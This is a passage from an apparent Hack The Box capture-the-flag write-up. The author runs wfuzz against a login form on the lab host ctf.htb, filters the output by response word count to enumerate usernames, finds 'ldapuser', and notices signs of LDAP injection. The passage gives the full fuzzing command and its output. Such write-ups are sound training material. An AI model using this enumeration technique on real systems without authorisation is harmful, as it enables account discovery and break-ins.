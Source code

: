 ```
000011:  C=200     68 L      233 W         2826 Ch        "0"
000012:  C=200     68 L      233 W         2827 Ch        "00"
000021:  C=200     68 L      233 W         2835 Ch        "0123456789"
000015:  C=200     68 L      233 W         2833 Ch        "00000000"
000016:  C=200     68 L      233 W         2827 Ch        "01"
^C
Finishing pending requests...
```
#### All "user not found" responses have 233 words so I filtered them :
```
root@kali:~/Desktop/HTB/boxes/ctf# wfuzz -c --hw 233 -u http://ctf.htb/login.php -X POST -d "inputUsername=FUZZ&inputOTP=0000" -w ./multiplesources-users-fabian-fingerle.de.txt                                  

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://ctf.htb/login.php
Total requests: 21168

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000006:  C=200     68 L      229 W         2810 Ch        "!@#%^&*"
000003:  C=200     68 L      229 W         2810 Ch        "!@#%"
000004:  C=200     68 L      229 W         2810 Ch        "!@#%^"
000005:  C=200     68 L      229 W         2810 Ch        "!@#%^&"
000007:  C=200     68 L      229 W         2810 Ch        "!@#%^&*("
000008:  C=200     68 L      229 W         2810 Ch        "!@#%^&*()"
000002:  C=200     68 L      229 W         2810 Ch        "!@#"
000010:  C=200     68 L      229 W         2810 Ch        "*****"
000065:  C=200     68 L      229 W         2810 Ch        "123456*a"
005121:  C=200     68 L      229 W         2810 Ch        "Ch4ng3m3!"
005723:  C=200     68 L      229 W         2810 Ch        "*%Cookie:"
009377:  C=200     68 L      229 W         2810 Ch        "!!Huawei"
011497:  C=200     68 L      231 W         2822 Ch        "ldapuser"
011866:  C=200     68 L      234 W         2835 Ch        "lost+found"
012611:  C=200     68 L      233 W         2831 Ch        "maurta"^C
Finishing pending requests...
```
####  It worked and I didn't get banned, after some time I got a result which was `ldapuser`, that's weird. I also noticed that payloads that had special characters in them caused different response length. I tried `ldapuser` to see what's the other message :
![](/images/hackthebox/ctf/6.png)
<br>